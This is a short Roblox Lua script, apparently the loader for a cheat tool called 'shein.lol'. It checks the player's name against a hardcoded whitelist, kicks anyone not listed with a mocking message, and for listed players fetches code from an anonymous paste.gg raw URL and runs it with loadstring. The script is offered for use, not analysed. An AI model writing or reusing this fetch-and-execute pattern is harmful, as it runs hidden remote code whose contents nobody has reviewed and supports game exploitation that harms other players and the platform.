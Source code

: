 -- @owo updated whitelist

local WhitelistedUsernames = {
    ["27k_gaming"] = true,
    ["torsotapper"] = true,
    ["twinthedev"] = true,
    ["cayyhaunt"] = true,
    ["Dragonblox836"] = true
    
}

local Player = game.Players.LocalPlayer

local function isWhitelisted(player)
    local username = player.Name
    return WhitelistedUsernames[username] == true
end

if isWhitelisted(Player) then
    loadstring(game:HttpGet("https://paste.gg/p/anonymous/ec746110a98147efaefe0dd955e38264/files/65275454bab040e7a396cb4f19ca31f9/raw"))()
else
    game.Players.LocalPlayer:Kick("BlackListed - shein.lol DOESNT like u😂.")
end
